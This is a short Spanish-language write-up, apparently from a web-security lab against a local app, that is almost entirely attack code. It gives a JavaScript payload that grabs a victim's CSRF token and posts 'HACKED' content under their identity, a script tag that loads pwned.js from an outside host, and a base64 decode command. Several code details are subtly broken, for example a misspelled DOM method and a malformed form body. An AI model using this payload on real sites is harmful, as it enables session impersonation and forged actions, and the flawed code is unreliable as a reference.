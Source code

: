 //Este script utiliza el token robado para cargar un post como el usuario de la cookie robada suplantando la identidad 

```js
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
	var data = "title=HACKED&subtitle=prueba&text=HACK&text=hackeado%20por%20anonymous_csrf_token=" + token;
	req2.open('POST', 'http://localhost:10007//newgossip', false);
	req2.withcredentials = true;
	req2.setRequestHeader('Content-type', 'application/x-www-form-url-encoded');
	req2.send(data);
```

Para cargar el archivo pwned.js introduciremos esto:

```js
	<script src="http://192.168.111.45/pwned.js"></script>
```

Para decodear la respuesta de base 64:

	echo -n "respuesta" | base64 -d; echo
